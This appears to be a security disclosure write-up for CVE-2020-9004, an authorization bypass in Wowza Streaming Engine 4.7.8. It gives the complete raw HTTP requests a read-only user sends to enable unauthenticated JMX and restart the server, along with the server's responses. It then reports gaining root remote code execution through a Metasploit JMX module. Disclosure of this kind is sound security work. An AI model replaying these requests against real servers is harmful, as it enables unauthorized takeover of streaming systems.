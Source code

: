 # CVE-2020-9004-Authenticated Remote Authorization Bypass Leading to RCE
A remote authenticated authorization bypass vulnerability in Wowza Streaming Engine 4.7.8 (build 20191105123929), allows any read-only user to issue requests to the administration panel in order to change functionality of the application. For example a read only user may activate the java JMX port in unauthenticated mode and execute OS system commands under root privileges.

### Evidence

![](admin-access.png)
<br />
*Figure 1 - Admin has access to JMX Remote Configuration
<br />
<br />

![](users.png)
<br />
*Figure 2 - User "user" is read-only
<br />
<br />

![](user-access.png)
<br />
*Figure 3 - User "user" has no access to JMX Remote Configuration
<br />
<br />


![](jmx-port-closed.png)
<br />
*Figure 4 - JMX Port 8085 closed
<br />
<br />



Request to activate JMX in unauthenticated mode and listen on all interfaces:
```
POST /enginemanager/server/serversetup/edit_adv.htm HTTP/1.1
Host: 192.168.101.128:8088
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3835.0 Safari/537.36
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.101.128:8088/enginemanager/Home.htm
Content-Type: application/x-www-form-urlencoded;charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 3841
Cookie: JSESSIONID=E3CA656F37B024F8E2C35E4871C1EC6B; DoNotShowFTU=true; showRightRail=true; lastMangerHost=http%3A//localhost%3A8087; lastTab=Advanced; JSESSIONID=BEA4C40611950C8725FB899535496B1F
Connection: close

vhost=_defaultVHost_&advSection=JMXRemoteConfiguration&advPath=%2FRoot%2FServer&advancedTables%5BJMXRemoteConfiguration%5D%5B0%5D.uiBooleanValue=true&advancedTables%5BJMXRemoteConfiguration%5D%5B0%5D.sectionName=JMXRemoteConfiguration&advancedTables%5BJMXRemoteConfiguration%5D%5B0%5D.section=&advancedTables%5BJMXRemoteConfiguration%5D%5B0%5D.type=Boolean&advancedTables%5BJMXRemoteConfiguration%5D%5B0%5D.name=enable&advancedTables%5BJMXRemoteConfiguration%5D%5B0%5D.canRemove=false&advancedTables%5BJMXRemoteConfiguration%5D%5B1%5D.value=localhost&advancedTables%5BJMXRemoteConfiguration%5D%5B1%5D.sectionName=JMXRemoteConfiguration&advancedTables%5BJMXRemoteConfiguration%5D%5B1%5D.section=&advancedTables%5BJMXRemoteConfiguration%5D%5B1%5D.type=String&advancedTables%5BJMXRemoteConfiguration%5D%5B1%5D.name=ipAddress&advancedTables%5BJMXRemoteConfiguration%5D%5B1%5D.canRemove=false&advancedTables%5BJMXRemoteConfiguration%5D%5B2%5D.value=0.0.0.0&advancedTables%5BJMXRemoteConfiguration%5D%5B2%5D.sectionName=JMXRemoteConfiguration&advancedTables%5BJMXRemoteConfiguration%5D%5B2%5D.section=&advancedTables%5BJMXRemoteConfiguration%5D%5B2%5D.type=String&advancedTables%5BJMXRemoteConfiguration%5D%5B2%5D.name=rmiServerHostName&advancedTables%5BJMXRemoteConfiguration%5D%5B2%5D.canRemove=false&advancedTables%5BJMXRemoteConfiguration%5D%5B3%5D.value=8084&advancedTables%5BJMXRemoteConfiguration%5D%5B3%5D.sectionName=JMXRemoteConfiguration&advancedTables%5BJMXRemoteConfiguration%5D%5B3%5D.section=&advancedTables%5BJMXRemoteConfiguration%5D%5B3%5D.type=Integer&advancedTables%5BJMXRemoteConfiguration%5D%5B3%5D.name=rmiConnectionPort&advancedTables%5BJMXRemoteConfiguration%5D%5B3%5D.canRemove=false&advancedTables%5BJMXRemoteConfiguration%5D%5B4%5D.uiBooleanValue=false&advancedTables%5BJMXRemoteConfiguration%5D%5B4%5D.sectionName=JMXRemoteConfiguration&advancedTables%5BJMXRemoteConfiguration%5D%5B4%5D.section=&advancedTables%5BJMXRemoteConfiguration%5D%5B4%5D.type=Boolean&advancedTables%5BJMXRemoteConfiguration%5D%5B4%5D.name=authenticate&advancedTables%5BJMXRemoteConfi<br />guration%5D%5B4%5D.canRemove=false&advancedTables%5BJMXRemoteConfiguration%5D%5B5%5D.value=8085&advancedTables%5BJMXRemoteConfiguration%5D%5B5%5D.sectionName=JMXRemoteConfiguration&advancedTables%5BJMXRemoteConfiguration%5D%5B5%5D.section=&advancedTables%5BJMXRemoteConfiguration%5D%5B5%5D.type=Integer&advancedTables%5BJMXRemoteConfiguration%5D%5B5%5D.name=rmiRegistryPort&advancedTables%5BJMXRemoteConfiguration%5D%5B5%5D.canRemove=false&advancedTables%5BJMXRemoteConfiguration%5D%5B6%5D.value=%24%7Bcom.wowza.wms.ConfigHome%7D%2Fconf%2Fjmxremote.password&advancedTables%5BJMXRemoteConfiguration%5D%5B6%5D.sectionName=JMXRemoteConfiguration&advancedTables%5BJMXRemoteConfiguration%5D%5B6%5D.section=&advancedTables%5BJMXRemoteConfiguration%5D%5B6%5D.type=String&advancedTables%5BJMXRemoteConfiguration%5D%5B6%5D.name=passwordFile&advancedTables%5BJMXRemoteConfiguration%5D%5B6%5D.canRemove=false&advancedTables%5BJMXRemoteConfiguration%5D%5B7%5D.value=%24%7Bcom.wowza.wms.ConfigHome%7D%2Fconf%2Fjmxremote.access&advancedTables%5BJMXRemoteConfiguration%5D%5B7%5D.sectionName=JMXRemoteConfiguration&advancedTables%5BJMXRemoteConfiguration%5D%5B7%5D.section=&advancedTables%5BJMXRemoteConfiguration%5D%5B7%5D.type=String&advancedTables%5BJMXRemoteConfiguration%5D%5B7%5D.name=accessFile&advancedTables%5BJMXRemoteConfiguration%5D%5B7%5D.canRemove=false&advancedTables%5BJMXRemoteConfiguration%5D%5B8%5D.uiBooleanValue=false&advancedTables%5BJMXRemoteConfiguration%5D%5B8%5D.sectionName=JMXRemoteConfiguration&advancedTables%5BJMXRemoteConfiguration%5D%5B8%5D.section=&advancedTables%5BJMXRemoteConfiguration%5D%5B8%5D.type=Boolean&advancedTables%5BJMXRemoteConfiguration%5D%5B8%5D.name=sslSecure&advancedTables%5BJMXRemoteConfiguration%5D%5B8%5D.canRemove=false
```

Response:
```
HTTP/1.1 200 
Content-Type: text/html;charset=UTF-8
Content-Language: en
Date: Fri, 14 Feb 2020 07:25:00 GMT
Connection: close
Content-Length: 138767

<div>
	<div class="row">
<div id="generic.warnings" class="alert alert-warning" style="display:none"></div>
<div class="col-md-12">
		<div class="alert alert-success" id="successMessage">
			<strong><i class="fa fa-info-circle"></i> <strong>Saved!</strong> You must restart the server for changes to take effect. <a class="btn btn-sm btn-warning" onclick="javascript:restartServerShow()"><i class="fa fa-refresh"></i>&nbsp;Restart Now</a></strong>
		</div> 
	</div>
	</div>
	<div class="row">
		<div class="col-md-9">
			<happ>
***TRUNCATED***
```

We have to reboot the service to apply changes.

Request:
```
POST /enginemanager/server/restart.htm HTTP/1.1
Host: 192.168.101.128:8088
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3835.0 Safari/537.36
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.101.128:8088/enginemanager/Home.htm
Content-Type: application/x-www-form-urlencoded;charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 446
Cookie: JSESSIONID=E3CA656F37B024F8E2C35E4871C1EC6B; DoNotShowFTU=true; showRightRail=true; lastMangerHost=http%3A//localhost%3A8087; lastTab=Advanced; JSESSIONID=BEA4C40611950C8725FB899535496B1F
Connection: close

vhost=_defaultVHost_&version=3161837623000&name=Wowza+Streaming+Engine&description=Wowza+Streaming+Engine+is+robust%2C+customizable%2C+and+scalable+server+software+that+powers+reliable+streaming+of+high-quality+video+and+audio+to+any+device%2C+anywhere.&licenseFile=ET1E4-XXXXX-XXXXX-XXXXX-XXXXX-XXXXX-BfWcpzFWMJ9&defaultStreamPrefix=mp4&statsEnabled=true&_statsEnabled=on&_rtpDataPortSharing=on&rtpDataPortSharingPort=6970&returnPage=serversetup
```

Response:
```
HTTP/1.1 200 
Content-Type: text/html;charset=UTF-8
Content-Language: en
Date: Fri, 14 Feb 2020 08:57:42 GMT
Connection: close
Content-Length: 138485

<div>
	<div class="row">
<div id="generic.warnings" class="alert alert-warning" style="display:none"></div>
	<div class="col-md-12">
		<div class="alert alert-success" id="successMessage">
			<strong>Server will restart in 5 seconds <script>setTimeout(function() { $('#successMessage').fadeOut('fast'); }, 10000);</script></strong>
		</div> 
	</div>

***TRUNCATED***

```

![](jmx-port-opened.png)
<br />
*Figure 5 - JMX port 8085 opened
<br />
<br />

Using metasploit module multi/misc/java_jmx_server we obtained rce:
![](rce.png)
<br />
*Figure 6 - RCE
<br />
